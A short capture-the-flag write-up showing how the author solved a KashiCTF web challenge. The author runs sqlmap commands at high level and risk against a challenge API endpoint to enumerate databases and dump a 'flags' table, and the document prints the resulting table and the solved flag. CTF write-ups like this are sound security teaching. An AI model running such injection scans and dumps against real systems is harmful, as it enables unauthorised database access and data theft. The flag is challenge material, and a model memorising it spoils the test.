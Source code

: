 Similar to corporate life 1 this challenge uses the same api but the flag moved "deeper" this implies another database and due to that I will use sqlmap to find the tables and them dump them.

``` bash
 3189  sqlmap -u "http://kashictf.iitbhucybersec.in:23734/api/list-v2" \\n--method POST \\n--data '{"filter": "*"}' \\n--headers "Content-Type: application/json" \\n--level 5 \\n--risk 3 \\n--batch \\n--dbs --tables
 
 
 3190  sqlmap -u "http://kashictf.iitbhucybersec.in:23734/api/list-v2" \\n--method POST \\n--data '{"filter": "*"}' \\n--headers "Content-Type: application/json" \\n--level 5 \\n--risk 3 \\n--batch \\n--dbs --tables -T flags --columns\n
 
 
 3191  sqlmap -u "http://kashictf.iitbhucybersec.in:23734/api/list-v2" \\n--method POST \\n--data '{"filter": "*"}' \\n--headers "Content-Type: application/json" \\n--level 5 \\n--risk 3 \\n--batch \\n-T flags --columns --dump\n
```

gets you the flag

    +------------+-------------+ | request_id | secret_flag | +------------+-------------+ | 1 | KashiCTF | | 3 | {b0r1ng_o | | 8 | ld_c0rp0 | | 15 | _l1f3_am_ | | 19 | 1_r1gh7_ | | 21 | juxoFQrv} | +------------+-------------+

    KashiCTF{b0r1ng_o ld_c0rp0_l1f3_am_1_r1gh7_juxoFQrv}
